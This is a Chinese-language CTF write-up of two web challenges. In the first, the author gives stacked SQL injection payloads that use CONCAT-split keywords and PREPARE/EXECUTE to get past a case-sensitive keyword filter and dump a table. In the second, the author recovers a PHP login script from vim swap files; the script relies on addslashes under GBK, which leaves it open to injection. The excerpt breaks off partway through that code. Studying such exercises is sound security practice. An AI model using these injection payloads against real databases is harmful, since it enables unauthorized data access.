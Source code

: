 



### id_wife| Author: blackwatch

参照强网杯 随便注，堆叠注入和concat绕过。

观察1'报错

`w1nd');`绕过

`w1nd');show tables;`

```
array(1) { [0]=> string(13) "1145141919810" }
array(1) { [0]=> string(4) "user" }
```

`w1nd');set @sql = CONCAT('se','lect * from 1145141919810;');prepare stmt from @sql;execute stmt;#`

strstr区分大小写绕过

`w1nd');Set @sql = CONCAT('se','lect * from 1145141919810;');Prepare stmt from @sql;EXECUTE stmt;#`





### are you reclu3e?| Author: blackwatch

 扫出来了 .index.php.swp .login.php.swp

vim -r 还原

```php
login.php
<?php
    include "connection.php";
    mysqli_query($conn, "SET CHARACTER SET 'gbk'");

    $username=addslashes($_POST['username']);
    $password=addslashes($_POST['password']);
    $msg='';
    if(empty($username)){
        $msg='please post your username';
    }
    else{
        $sql="select * from users where username='$username'";
        $result=mysqli_query($conn,$sql);
        if($result){
            $row=mysqli_fetch_array($result,MYSQLI_ASSOC);
        }
        if(empty($row)){
            $msg='you are not reclu3e';
        }
        else{
            if($row['password']!==$password){
                $msg='I know you are reclu3e but you need post the right password';
            }
            else{
                session_start();
                $_SESSION['uid'] = $username;
                echo '<script>alert("Yes! you are reclu3e")</script>';
            }
        }
    }
    if(!empty($msg)){
        echo "<script>alert('$msg')</script>";
    }
    $conn->close();
    echo "<script type='text/javascript'>";  
```
